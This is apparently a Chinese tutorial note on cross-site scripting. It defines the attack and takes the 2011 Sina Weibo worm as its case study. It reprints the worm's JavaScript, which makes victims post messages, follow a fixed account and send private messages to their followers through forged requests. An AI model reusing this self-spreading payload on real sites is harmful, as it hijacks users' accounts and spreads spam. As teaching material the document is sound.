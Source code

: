 # xss攻击

跨站脚本，Cross-site scripting

定义：通常指利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序的攻击。

语言：程序语言通常是JavaScript，也可以包括Java、VBScript、ActiveX、Flash、HTML。

意义：攻击成功后可以得到更高的权限、私密内容、会话、cookie等内容。

攻击排名：2nd。代码注入1st。



## 例子1：新浪微博病毒事件

![img](http://photocdn.sohu.com/20110628/Img311946834.jpg)

攻击代码如下：

![img](http://photocdn.sohu.com/20110628/Img311947166.jpg)

```
//发微博
function publish(){
    url = 'http://weibo.com/mblog/publish.php?rnd=' + new Data().getTime();
    data = 'content=' + random_msg() + '&pic=&styleid=2&retcode=';
    post(url, data, true);
}
//加关注
function follow(){
    url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime();
    data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile';
    post(url,data,true);
}
//给粉丝发私信
function message(){
    url='http://weibo.com' + $CONFIG.$uid + '/follow';
    ids = getappkey(url);
    id = ids.split('||');
    for(i=0; i < id.length - 1 & i<5; i++){
      msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Data().getTime();
      msg = random_msg();
      msg = encodeURIComponent(msg);
      user = encodeURIComponent(encodeURIComponent(id[i]));
      data = 'content=' + msg + '&name=' + user + '&retcode=';
      post(msgurl, data, false);
    }
}
```

攻击者在微博内容的短链接指向的真实链接中嵌入了一段JavaScript代码，用此发动了攻击。

技术人员表示这是由于在生成短链接的时候未能严格校验script标签造成的。而script是由新浪本域的url链接引到的，所以可以在本域执行，直接模拟用户的各种请求。

（新浪微博中毒事件转载自http://it.sohu.com/20110628/n311945225.shtml）